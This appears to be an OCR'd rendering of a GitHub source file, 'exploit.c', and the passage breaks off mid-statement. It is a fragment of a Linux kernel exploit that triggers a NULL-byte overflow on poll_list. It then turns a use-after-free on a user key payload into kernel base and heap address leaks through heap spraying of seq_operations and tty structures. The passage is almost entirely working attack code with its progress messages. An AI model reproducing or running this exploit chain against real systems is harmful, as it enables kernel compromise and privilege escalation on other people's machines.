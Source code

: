 ```exploit.c

  // NULL-byte overflow (hopelly) on `poll_list`, whose `next` pointer get pointing to `user_key_payload` in kmalloc-32.
  puts("[+] NULL-byte overflow ing...");
  nullbyte_overflow();

  // Wait all `poll_list` are freed
  for (int ix = 0; ix != NUM_1ST_POLLLIST_ALLOC; ++ix) {
    open("/proc/self/stat", O_RDONLY);
    pthread_join(threads[ix], NULL);
  }
  puts("[+] Freed all 'poll_list'");

  // Place `seq_operations` on UAFed `user_key_payload` in kmalloc-32
  for(int ix = 0; ix != NUM_SEQOPERATIONS; ++ix) {
    if ((seqops_fd[ix] = open("/proc/self/stat", O_RDONLY)) <= 2) errExit("open seqops");
  }

  // Check all keys to leak kbase via `seq_operations`
  ulong single_show = 0;
  key_serial_t uafed_key = 0;
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    int num_read;
    memset(keybuf, 0, 0x5000);
    if((num_read = keyctl_read(keys[ix], keybuf, 0x5000)) <= 0) errExit("keyctl_read");
    if (strncmp(keybuf, "AAAA", 4) != 0) {
      single_show = *(ulong*)keybuf;
      uafed_key = keys[ix];
      if (single_show == 0) {
        puts("[-] somehow, empty key found");
      } else break;
    }
  }
  if (single_show == 0) {
    puts("[-] Failed to leak kbase");
    exit(1);
  }
  printf("[!] leaked single_show: 0x%lx\n", single_show);
  kbase = single_show - (0xffffffff813275c0 - 0xffffffff81000000);
  printf("[!] leaked kbase: 0x%lx\n", kbase);

  // Free all keys except UAFed key
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    if (keys[ix] != uafed_key) free_key(keys[ix]);
  }
  sleep(1); // wait GC(security/keys/gc.c) actually frees keys

  // Place `tty_file_private` on UAFed `user_key_payload` in kmalloc-32
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    if ((tty_fd[ix] = open("/dev/ptmx", O_RDWR | O_NOCTTY)) <= 2) errExit("open tty");
  }

  // Read `tty_file_private.tty` which points to `tty_struct` in kmalloc-1024
  memset(keybuf, 0, 0x5000);
  int num_read = 0;
  if((num_read = keyctl_read(uafed_key, keybuf, 0x5000)) <= 0) errExit("keyctl_read");
  printf("[+] read 0x%x bytes from UAFed key\n", num_read);
  ulong km1024_leaked = 0;
  ulong *tmp = (ulong*)keybuf + 1;
  for (int ix = 0; ix != 0x4330/8 - 2 - 1; ++ix) {
    if (
      (tmp[ix] >> (64-4*4)) == 0xFFFF && // tty must be in kheap
      (tmp[ix + 1] >> (64-4*4)) == 0xFFFF && // file must be in kheap
```